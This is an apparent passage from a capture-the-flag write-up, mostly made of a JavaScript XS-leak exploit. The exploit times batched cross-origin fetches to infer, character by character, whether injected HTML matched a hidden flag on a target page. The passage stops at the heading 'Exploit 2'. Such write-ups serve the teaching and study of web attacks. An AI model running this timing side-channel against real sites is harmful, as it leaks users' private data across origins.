 ```html
            
            // start meassuring time to perform 5 requests
            let start = performance.now();
            await Promise.all([
                fetch("https://example.com", { mode: "no-cors" }),
                fetch("https://example.com", { mode: "no-cors" }),
                fetch("https://example.com", { mode: "no-cors" }),
                fetch("https://example.com", { mode: "no-cors" }),
                fetch("https://example.com", { mode: "no-cors" })
            ]);
            let delta = performance.now() - start;
            document.title = delta;
            controller.abort();

            log("test_" + c + "_" + i, delta);
            
            // Save time needed
            deltas.push(delta);
        }
        return deltas;
    };
    
    // Check each char
    const pwn = async () => {
        // Try to leak each character
        for(let i = 0; i < alphabet.length; i++) {
            //Check the indicated char
            let deltas = await leak(alphabet[i]);
            
            // Calculate mean time from requests to example.com
            let avg = deltas.reduce((a,v) => a+v, 0) / deltas.length;
            
            // If greater than 250, the HTML code was injected (flag in index 0)
            if (avg > 250) {
                log("tests_pos_" + alphabet[i], deltas)
            }
            // Flag in the page
            else {
                log("tests_neg_" + alphabet[i], deltas)
            }
        }
    };

    window.onload = async () => {
        pwn();
    };
</script>
```

### Exploit 2
